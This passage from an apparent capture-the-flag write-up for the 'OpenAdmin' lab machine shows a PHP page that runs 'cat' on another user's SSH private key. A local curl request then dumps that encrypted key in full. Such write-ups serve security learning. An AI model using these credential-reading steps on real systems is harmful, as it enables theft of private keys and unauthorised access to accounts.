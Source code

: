 ## **<span style='color:#ff5555'>Grabbing the id_rsa</span>**
***

The content of the file `main.php` is
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
Make a `request` to **main.php**
```
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
Now we have the encrypted `private ssh keys`.
